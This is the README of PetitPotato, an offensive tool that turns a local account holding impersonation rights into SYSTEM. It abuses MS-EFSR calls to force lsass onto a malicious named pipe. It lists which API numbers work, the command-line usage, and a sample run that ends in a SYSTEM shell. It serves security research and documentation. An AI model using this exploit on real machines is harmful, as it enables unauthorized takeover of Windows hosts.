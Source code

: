 # PetitPotato

Local privilege escalation via PetitPotam (Abusing impersonate privileges).

## Description

[PetitPotam](https://github.com/topotam/PetitPotam) uses MS-EFSR (Encrypting File System Remote), a protocol used to perform maintenance and management operations on encrypted data stored remotely and accessed over a network. There are a series of APIs similar to `EfsRpcOpenFileRaw` in MS-EFSR. The syntax of the `EfsRpcOpenFileRaw` API is shown below.

```c++
long EfsRpcOpenFileRaw(
   [in] handle_t binding_h,
   [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
   [in, string] wchar_t* FileName,
   [in] long Flags
 );
```

Such APIs can specify a UNC path via the FileName parameter to open encrypted objects on the server for backup or restore. When the path in the format `\\IP\C$` is specified, the lsass.exe service will access `\\IP\pipe\srvsvc` with `NT AUTHORITY SYSTEM` account privileges.

If we can call the `EfsRpcOpenFileRaw` API to force the local computer to connect to the malicious named pipe we created, then we can impersonate the named pipe client process and eventually gain the SYSTEKM privilege.

Here are all the APIs I found that have a FileName parameter, and most of them can be used for privilege escalation (but when I tested locally, some API calls failed, maybe I made a mistake somewhere):

|                MS-EFSR API                 | EfsID |
| :----------------------------------------: | :---: |
|           **EfsRpcOpenFileRaw**            |   0   |
|          **EfsRpcEncryptFileSrv**          |   1   |
|          **EfsRpcDecryptFileSrv**          |   2   |
|         **EfsRpcQueryUsersOnFile**         |   3   |
|       **EfsRpcQueryRecoveryAgents**        |   4   |
|     EfsRpcRemoveUsersFromFile (Failed)     |   5   |
|          **EfsRpcAddUsersToFile**          |   6   |
|           **EfsRpcFileKeyInfo**            |   7   |
| EfsRpcDuplicateEncryptionInfoFile (Failed) |   8   |
|         **EfsRpcAddUsersToFileEx**         |   9   |
|        EfsRpcFileKeyInfoEx (Failed)        |  10   |
|  EfsRpcGetEncryptedFileMetadata (Failed)   |  11   |
|  EfsRpcSetEncryptedFileMetadata (Failed)   |  12   |


## Usage

```powershell
PetitPotato.exe [EfsID] [Command]
```

- `EfsID`: MS-EFSR API number to use
- `Command`: command to execute

## Example

```cmd
C:\Users\Administrator\Desktop>PetitPotato.exe 3 cmd.exe

[+] Malicious named pipe running on \\.\pipe\petit\pipe\srvsvc.
[+] Invoking EfsRpcQueryUsersOnFile with target path: \\localhost/pipe/petit\C$\wh0nqs.txt.
[+] The connection is successful.
[+] ImpersonateNamedPipeClient OK.
[+] OpenThreadToken OK.
[+] DuplicateTokenEx OK.
[+] CreateProcessAsUser OK.
Microsoft Windows [版本 10.0.18363.592]
(c) 2019 Microsoft Corporation。保留所有权利。

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

![image-20221030165055659](/images/image-20221030165055659.png)

![image-20221030165622668](/images/image-20221030165622668.png)

## Link

- https://github.com/topotam/PetitPotam
- https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
- https://itm4n.github.io/from-rpcview-to-petitpotam/

